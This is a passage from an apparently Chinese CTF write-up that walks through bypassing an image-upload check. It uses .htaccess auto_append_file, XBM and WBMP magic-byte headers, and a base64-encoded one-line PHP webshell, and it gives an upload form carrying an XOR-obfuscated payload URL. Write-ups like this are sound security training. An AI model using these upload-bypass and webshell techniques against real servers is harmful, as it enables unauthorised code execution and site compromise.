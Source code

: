 ```php
php_value auto_append_file hacker.cc   # 将解析为php执行的文件后面添加 hacker.cc文件的内容
```

但是我们不能直接上传上去，因为存在：`exif_imagetype()`函数进行检测是否为图片。

这里可以有两种绕过方法：

##### **XBM图片**

`.htaccess`文件中可以用  `#`作为注释符

![image-20230516133902118](https://s2.loli.net/2023/05/16/Uv4PZVAGtF27zMQ.png)

当我们添加：

```
#define width 1337
#define height 1337
```

那么可以绕过`exif_imagetype()`函数，并且由于加上了#，对 `.htaccess`文件不会造成影响



##### WBMP图片

我们可以在文件头加上：`\x00\x00\x85\x85` 需要使用16进制编辑器(必须加在文件头)

![image-20230516134443001](https://s2.loli.net/2023/05/16/ta87QXsr3Ekdf1O.png)





根据以上分析，我们有这么一个思路，由于我们不能上传php文件，内容不能包含 `<?`

所以我们可以将文件内容先base64编码，

文件头加上 `\x00\x00\x85\x85` 绕过

然后在`.htaccess` 中 `php_value auto_append_file `使用伪协议解码，将一句话木马包含进来，

（注意，我们要先把木马文件解析为php文件，这样才能让`auto_append_file`包含进木马文件中)

![image-20230516134750382](https://s2.loli.net/2023/05/16/ZWhtimIFP9rvl2u.png)





所以，我们构造上传html:（注意调用get_the_flag函数）

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    
    <form action="http://87575331-e8e9-433c-9488-7bb3938a1c0b.node4.buuoj.cn:81/?_=${%FE%FE%FE%FE^%A1%B9%BB%AA}{%FE}();&&%FE=get_the_flag" method="post" enctype="multipart/form-data">
        <input type="file" name="file">file
        <input type="submit">submit
    </form>

</body>
</html>
```
